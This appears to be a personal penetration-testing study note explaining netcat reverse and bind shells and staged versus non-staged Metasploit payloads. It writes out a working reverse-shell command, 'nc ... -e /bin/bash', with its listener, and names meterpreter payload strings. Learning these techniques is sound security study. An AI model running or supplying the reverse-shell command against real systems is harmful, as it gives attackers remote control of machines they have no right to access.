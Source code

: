 ## Reverse Shell vs Bind shell
### Netcat Reverse Shell
- Most common
	- You use it 95% of the time
- A shell gives you access to a machine
	- Attackbox listens - target connects
- A reverse shell is a shell that allows a victim to connect to you
	- You can have netcat active on the attackbox listening on a port, and the target connects to your IP on the same port via netcat
- Port forward or port trigger is needed to connect the target's public IP to the attackbox's private IP
- Example connection
	- Attacker: `nc -nvlp 4444`
	- Target: `nc 192.168.57.6 4444 -e /bin/bash`
- ![Netcat Reverse Shell](assets/Screenshot%20from%202025-09-03%2013-56-41.png)
### Netcat Bind Shell
- Less common
	- Mostly on external assessments
- Most useful when you need to bypass a firewall or when reverse shell isn't working
- The attackbox connects to the target
	- Attackbox connects - target listens
- We open a port on the target via an exploit, then connect to it via netcat
- No need for port forwarding since we connect the attackbox's public IP to the target's private IP
- ![Netcat Bind Shell](assets/Screenshot%20from%202025-09-03%2013-44-18.png)

## Staged vs Non-Staged Payloads
- A payload is what you run as an exploit
- There are different types of payloads
	- Windows payloads
	- Linux payloads
	- Meterpreter payload
		- An attack payload used in [[Hacking Tools#Metasploit |Metasploit]]
		- There are at least 500 payloads in [[Hacking Tools#Metasploit |Metasploit]] alone
- The main difference between a non-staged and a staged payload's syntax is the forward slash `/`
	- Non-staged
		- `windows/meterpreter_reverse_tcp`
	- Staged
		-  `windows/meterpreter/reverse_tcp`
### Staged payloads
- Sends exploit shell payload in stages
- Can be less stable than non-staged
### Non-Staged payloads
- Sends exploit shell code all at once
- Large in size than staged
- Doesn't always work
- ![Staged vs Non-staged](assets/Screenshot%20from%202025-09-04%2011-40-25.png)

# Notes
- If a payload fails, try the other type
	- You send a non-staged payload and it fails, try a staged payload
	- Your failed payload was a reverse shell? Try a bind shell